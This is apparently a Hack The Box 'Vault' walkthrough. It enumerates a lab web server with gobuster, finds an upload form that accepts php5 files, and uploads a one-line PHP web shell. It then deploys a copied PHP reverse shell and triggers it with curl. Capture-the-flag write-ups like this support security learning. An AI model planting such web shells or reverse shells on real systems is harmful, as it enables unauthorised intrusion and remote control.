







# 10 - Web Service

# index.php



# sparklays




# Gobuster
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/vault]
└──╼ $ gobuster dir -u http://10.10.10.109/sparklays -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ".php,.txt,.html" -o gobuster/sparklays.log 

/login.php            (Status: 200) [Size: 16]
/admin.php            (Status: 200) [Size: 615]
/design               (Status: 301) [Size: 323] [--> http://10.10.10.109/sparklays/design/]
```


```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/vault]
└──╼ $ gobuster dir -u sparklays.com/sparklays/design/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ".php,.txt,.html" -o gobuster/sparklays-design.log -t 100 

/uploads              (Status: 301) [Size: 333] [--> http://sparklays.com/sparklays/design/uploads/]
/design.html          (Status: 200) [Size: 72]                  
```


# design.html


Change Logo is a link  to changelogo.php

# changelogo.php




By trial and error, we discover that the page allows php5 file uploads


# exploit.php5
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/vault/exploit]
└──╼ $ cat exploit.php5 
<?php system($_REQUEST["cmd"]); ?>
```


# php5 file upload is successful





# Code execution




# php-reverse-shell.php5
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/vault/exploit]
└──╼ $ locate php-reverse-shell
/opt/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
/usr/share/beef-xss/modules/exploits/m0n0wall/php-reverse-shell.php
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php

┌─[user@parrot]─[10.10.14.18]─[~/htb/vault/exploit]
└──╼ $ cp /opt/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php reverse.php5

┌─[user@parrot]─[10.10.14.18]─[~/htb/vault/exploit]
└──╼ $ curl http://10.10.10.109/sparklays/design/uploads/reverse.php5
```

# Shell

